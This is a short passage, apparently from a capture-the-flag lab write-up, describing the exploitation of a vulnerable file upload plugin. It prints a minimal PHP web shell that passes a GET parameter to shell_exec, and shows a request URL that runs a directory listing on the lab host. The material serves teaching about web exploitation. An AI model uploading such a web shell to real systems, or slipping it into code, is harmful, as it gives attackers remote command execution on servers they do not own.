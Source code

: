 we noticed the presence of a vulnerable file upload plugin.
<p><align="center">
  <img src="./images/image8.png" alt="Layer 3" width="700">
</p>

we Uploaded a custom PHP web shell (similar to what follows):
```php
<?php
  echo shell_exec($_GET['cmd']);
?>
``` 
We exploited a potential Command Injection vulnerability by appending a system command (ls /var/www/html/) as a query parameter to the uploads.php endpoint:

- ctf2.playgroung.ine/public/uploads.php?cmd=ls /var/www/html/

<p><align="center">
  <img src="./images/image10.png" alt="Layer 3" width="700">
</p>
